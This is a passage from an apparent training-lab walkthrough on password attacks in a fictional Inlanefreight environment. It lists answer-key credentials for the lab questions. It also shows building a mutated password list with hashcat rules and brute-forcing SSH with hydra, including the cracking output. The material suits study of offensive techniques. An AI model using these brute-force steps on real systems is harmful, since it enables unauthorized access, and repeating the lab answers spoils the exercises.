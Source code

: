 So the answer easy to find from this.


20. What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive) 

Here is pretty easy, just look for some folders, open some scripts: Inlanefreightisgreat2022


21. What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive) 

Here as well, just open file for that Automation&Script folder: edgeadmin:Edge@dmin123!


### Credential Hunting in Linux

22. Examine the target and find out the password of the user Will. Then, submit the password as the answer.

In the hint it is written that there is user `Kira` with password `LoveYou1`, which can be useful for ssh. However it did not work like that. Our task is to create a mutated password list using her password. First add her password to file:
```c
nano kirapassloveyou1.txt 

LoveYou1
```

Then make a list of mutated passwords with hashcat:
```c
hashcat --force kirapassloveyou1.txt -r custom.rule --stdout | sort -u > mutatedkirapassloveyou1.list

┌──(r3so1v3㉿kali)-[~/Hacking/academy/password-attacks]
└─$ wc -l mutatedkirapassloveyou1.list                                 
459 mutatedkirapassloveyou1.list
```

So we have 459 passwords there. Let's brute force ssh service:
```c
hydra -l kira -P mutatedkirapassloveyou1.list -u 10.129.87.169 ssh                 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 21:19:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 459 login tries (l:1/p:459), ~29 tries per task
[DATA] attacking ssh://10.129.87.169:22/
[22][ssh] host: 10.129.87.169   login: kira   password: L0vey0u1!
1 of 1 target successfully completed, 1 valid password found
```

Now we got her ssh password `L0vey0u1!` We can use it to ssh to target:
```c
ssh kira@10.129.87.169
```
